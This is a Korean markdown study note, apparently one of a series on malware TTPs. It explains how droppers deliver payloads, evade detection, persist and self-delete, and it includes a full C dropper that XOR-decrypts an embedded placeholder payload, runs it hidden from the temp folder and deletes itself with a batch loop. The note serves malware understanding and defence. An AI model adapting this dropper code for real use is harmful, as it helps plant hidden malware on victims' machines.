


## Context

- **Tactic**: Malware Delivery Understanding
- **Technique**: Payload Deployment Analysis
- **Procedure**: Deconstruct dropper behavior and execution stages

## Core Idea

### Dropper란?
- Dropper는 **악성코드 배포를 위한 운반체(배달 상자)** 역할을 수행하는 프로그램이다.
- 최종적으로 실행될 `페이로드(랜섬웨어, RAT, 백도어 등)`를 시스템에 **드롭(Drop)**하여 실행 환경을 구성한다.
- 스스로 악의적인 행동을 수행하지 않으며, **페이로드를 안전하게 전달하고 실행하는 것이 주목적**이다.


**Figure 1.** dropper schematic diagram
### Dropper의 특징
- **탐지 회피**: 암호화된 형태로 페이로드를 포함하여 보안 솔루션의 탐지를 우회.
- **다양한 실행 방식**: 디스크에 파일을 저장하거나, 메모리에 직접 로드하여 실행 가능.
- **지속성 유지**: 레지스트리 등록, 작업 스케줄러 설정 등을 통해 시스템 재부팅 후에도 동작할 수 있음.
- **자기 삭제 기능**: 실행 후 탐지를 피하기 위해 흔적을 자동으로 제거 가능.

### Dropper 동작 흐름

**Figure 2.** dropper execution flow

1. **Dropper 실행** → 사용자가 Dropper(악성 실행 파일)를 실행
2. **페이로드 저장 (Dropping)**: 악성 페이로드를 저장하는 과정 수행
	- **디스크 저장:** `CreateFileA` → `WriteFile` 을 사용하여 디스크에 파일 드롭
	- **메모리 저장:** 페이로드를 메모리에 직접 로드(Reflective DLL Injection 등)하여 실행
3. **페이로드 실행 방식**: 저장된 페이로드를 실행하는 방식 선택
	- **디스크 실행:** `CreateProcessA/W`, `ShellExecute`를 사용하여 페이로드 실행
	- **메모리 인젝션:** `NtMapViewOfSection`, `VirtualAllocEx`, `WriteProcessMemory`, `CreateRemoteThread` 등을 활용하여 다른 프로세스에 코드 인젝션 후 실행
4. **지속성 확보 (Persistence)**: 악성코드가 재부팅 후에도 실행되도록 설정 가능
	- **레지스트리 수정:** `RegSetValueExA/W`사용, 스타트업, Run 키 등을 수정해 자동 실행 설정
	- **작업 스케줄러 사용:** `schtasks /create` 통해 예약 작업(Task Scheduler)으로 자동 실행 설정
5. **자기 삭제 (Self-Delete)**: 실행 후 탐지를 피하기 위해 자기 자신을 삭제
	- **즉시 삭제:** `cmd /c del` 명령어 실행하여 즉시 파일 삭제
	- **재부팅 후 삭제:** `MoveFileExA`를 사용하여 재부팅 시 삭제 예약

## Code / Experiment
```c
#include <windows.h>
#include <stdio.h>
#include <shlobj.h>

// XOR encryption/decryption
void xor_cipher(char *data, size_t data_len, const char *key, size_t key_len) {
    for (size_t i = 0; i < data_len; i++) {
        data[i] ^= key[i % key_len];
    }
}

int main() {
    char tempPath[MAX_PATH], payloadPath[MAX_PATH], batchPath[MAX_PATH];
    char encryptedPayload[] = "ENCRYPTED_PAYLOAD_PLACEHOLDER";
    const char encryptionKey[] = "SECRET_KEY";

    // Generate random file path in temp directory
    GetTempPathA(MAX_PATH, tempPath);
    sprintf(payloadPath, "%s%08x.exe", tempPath, rand());

    // Decrypt payload in memory
    char *decryptedPayload = malloc(sizeof(encryptedPayload));
    memcpy(decryptedPayload, encryptedPayload, sizeof(encryptedPayload));
    xor_cipher(decryptedPayload, sizeof(encryptedPayload), encryptionKey, sizeof(encryptionKey) - 1);

    // Write decrypted payload to disk
    HANDLE hFile = CreateFileA(payloadPath, GENERIC_WRITE, 0, NULL,
                                CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile != INVALID_HANDLE_VALUE) {
        DWORD written;
        WriteFile(hFile, decryptedPayload, sizeof(encryptedPayload), &written, NULL);
        CloseHandle(hFile);
        free(decryptedPayload);

        // Execute payload
        STARTUPINFOA si = { .cb = sizeof(si), .dwFlags = STARTF_USESHOWWINDOW, .wShowWindow = SW_HIDE };
        PROCESS_INFORMATION pi;
        CreateProcessA(payloadPath, NULL, NULL, NULL, FALSE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi);
        CloseHandle(pi.hProcess); CloseHandle(pi.hThread);

        // Create batch script for self-deletion
        sprintf(batchPath, "%sdelete.bat", tempPath);
        HANDLE hBatch = CreateFileA(batchPath, GENERIC_WRITE, 0, NULL,
                                    CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
        if (hBatch != INVALID_HANDLE_VALUE) {
            char batchContent[512];
            sprintf(batchContent,
                "@echo off\n"
                ":repeat\n"
                "del \"%s\"\n"
                "if exist \"%s\" goto repeat\n"
                "del \"%s\"\n",
                __argv[0], __argv[0], batchPath);
            WriteFile(hBatch, batchContent, strlen(batchContent), &written, NULL);
            CloseHandle(hBatch);
            WinExec(batchPath, SW_HIDE);
        }
    } else {
        free(decryptedPayload);
    }

    return 0;
}
```

## Note

> One of several TTP-focused notes dissecting dropper mechanics.

**[dropper-overview.md](dropper-overview.md)**
- **Tactic:** Malware Delivery Understanding
- **Technique:** Payload Deployment Analysis
- **Procedure:** Deconstruct dropper behavior and execution stages

**[dropper-simulation.md](dropper-simulation.md)**
- **Tactic**: Stealth Engineering
- **Technique**: Dropper Simulation & In-Memory Execution Models
- **Procedure**: Simulate dropper behavior including persistence, obfuscation, anti-analysis, and payload deployment

**[dropper-alternative-vectors.md](dropper-alternative-vectors.md)**
- **Tactic**: - Alternative Execution Surface Exploration
- **Technique**: Interpreter-Based Payload Delivery
- **Procedure**: Leverage system interpreters to deliver payloads, evade static detection, and perform in-memory execution across platforms

**dropper-analysis-methods.md**
- **Tactic:** Threat Traceability
- **Technique:** Static & Dynamic Binary Analysis
- **Procedure:** Investigate dropper internals using r2, volatility, and process monitors

**dropper-code-deepdive.md**
- **Tactic:** Execution Mechanics Exploration
- **Technique:** Process Injection & Anti-Analysis
- **Procedure:** Reverse-engineer memory injection, control flow, and evasion logic

**dropper-mitigation.md**
- **Tactic:** Adaptive Defense Modeling
- **Technique:** Behavior Profiling & ML-Aided Detection
- **Procedure:** Design countermeasures using event logging, hardening, and ML classifiers
